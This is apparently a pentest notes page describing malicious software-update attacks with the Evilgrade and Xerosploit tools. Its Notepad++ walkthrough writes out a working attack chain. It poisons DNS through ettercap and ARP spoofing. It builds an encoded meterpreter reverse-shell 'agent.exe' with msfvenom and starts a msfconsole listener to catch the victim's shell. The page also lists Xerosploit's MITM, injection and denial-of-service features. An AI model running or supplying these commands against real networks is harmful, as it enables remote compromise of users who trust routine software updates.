 # Malicious Update

#### Presenting the victim with a malicious payload as a software update package.

## IRS-Evilgrade

{% embed url="https://github.com/infobyte/evilgrade" %}

Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates. It comes with pre-made binaries (agents), a working default configuration for fast pentests, and has it's own WebServer and DNSServer modules. Easy to set up new settings, and has an autoconfiguration when new binary agents are set.

#### This framework comes into play when the attacker is able to make hostname redirections (manipulation of victim's dns traffic), and such thing can be done on 2 scenarios:

**Internal scenery:**

* Internal DNS access
* ARP spoofing
* DNS Cache Poisoning
* DHCP spoofing
* TCP hijacking
* Wi-Fi Access Point impersonation

**External scenery:**

* Internal DNS access
* DNS Cache Poisoning

#### installation

```
apt install irs-evilgrade
evilgrade
```

#### start/stop web and DNS server

```
evilgrade> start
evilgrade> stop
```

#### list available modules

```
evilgrade>show modules
```

#### Configure a specified module

```
evilgrade>conf sunjava
evilgrade(sunjava)>
```

#### Show all VirtualHosts.&#x20;

VirtualHost field contains the domains that our webserver is going to emulate for us.

```
evilgrade>show vhosts
```

#### Show options of current module.&#x20;

**agent:** This is our fake update binary, we have to set the path to where it's located or implement a dynamic fake update binary generation (see ADVANCED).

```
evilgrade(sunjava)>show options
```

#### Show status and victims logs

```
evilgrade>show status
```

### Exploitation

we'll look at manipulating the update process of the popular text editor Notepad++. First, we'll use Ettercap to create a MitM attack position and impersonate the notepad-plus.sourceforge.net server used to check for update availability and to deliver the updated software.

Ettercap includes support for manipulating DNS responses, spoofing the DNS response for any hostname you specify in the etter.dns file. On the top of this slide we append to the etter.dns file an A record for "notepad- plus.sourceforge.net," pointing to the attacker at 10.10.10.10

```
echo "notepad-plus.sourceforge.net" A 10.10.10.10" >> /etc/ettercap/etter.dns
```

Next we invoke Ettercap using ARP spoofing to create a MitM attack using the arguments we examined earlier. After Ettercap starts, press "p" to list the available plugins (the list shown on this slide has been trimmed for space). To load the dns\_spoof plugin, which will leverage the etter.dns file to obtain the list of hosts to impersonate, enter the plugin name "dns\_spoof" and press Enter.

```
sudo ettercap -YqM arp:remote /10.10.10.1-254// /10.10.10.1-254//
```

Evilgrade delivers malicious code with local web server

{% hint style="info" %}
Default is agent.exe in isr-evilgrade/agent directory.&#x20;

Replace this file (Notepad clone) or change the "agent" parameter in the module.
{% endhint %}

```
cd /usr/share/irs-evilgrade/agent
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=8080 -f exe --platform windows -e x86/shikata_ga_nai -a x86 > agent.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.56.1; set lport 8080;exploit"
```

The LHOST argument used by the attacker can be set to a specific IP address to launch the listener on a specific interface, or it can be set to 0.0.0.0 to listen and accept connections on all interfaces. In this example, we take advantage of the msfconsole "-x" argument, which allows us to specify all the arguments on the command line, separated by semicolons. Be sure to include quotes around these arguments, as shown in the example on this page, to prevent the shell from interpreting the semicolons as additional shell commands.

#### run evilgrade and configure notepadplus module:

```
evilgrade
evilgrade> conf notepadplus
evilgrade(notepadplus)>show options

```

![](<../../.gitbook/assets/image (296) (1).png>)

```
evilgrade(notepadplus)>start
```

we invoke the "evilgrade" executable to invoke the handler for the Notepad++ software update process. At the "evilgrade>" prompt, enter "conf notepadplus" to invoke the Notepad++ handler. For any Evilgrade module, running "show options" will display configuration information and options that can be manipulated using the "set" command, such as the filename to an alternative executable to deliver to the attacker. Finally, launch the module by issuing the "start" command, which will invoke the Evilgrade web server.

![](<../../.gitbook/assets/image (276).png>)

Evilgrade will log to standard output the status of client requests for updates, as shown on this slide. The first log entry indicates that the Notepad++ client requested the getDownLoadUrl.php page, which checks for an available update. The second entry indicates the client's request for the executable file to download and install, followed by the delivery of the agent/agent.exe file to the victim.

{% hint style="info" %}
Evilgrade-like techniques are still possible, but the proliferation of HTTPS makes upgrade attacks a little more difficult. If a pen tester notices a MitM situation is possible during an update, they are more likely to create a custom script that performs the replacement, rather than use a framework.
{% endhint %}

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Unownsec&v=nReKwL93Fnk" %}

## Xerosploit

{% embed url="https://github.com/LionSec/xerosploit" %}

Xerosploit is a penetration testing toolkit whose goal is to perform man in the middle attacks for testing purposes. It brings various modules that allow to realise efficient attacks, and also allows to carry out denial of service attacks and port scanning.

### features:

* Port scanning
* Network mapping
* Dos attack
* Html code injection
* Javascript code injection
* Download intercaption and replacement
* Sniffing
* Dns spoofing
* Background audio reproduction
* Images replacement
* Drifnet
* Webpage defacement and more ...

#### installation

```
git clone https://github.com/LionSec/xerosploit
cd xerosploit && sudo python install.py
sudo xerosploit
```

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Neodrix&v=35QUrtZEV9U" %}

## Combine with BeFF and Metasploit

{% embed url="https://sploitech.com/exploiting-tools/how-to-do-advanced-mitm-attacks-with-beef-xerosploit" %}

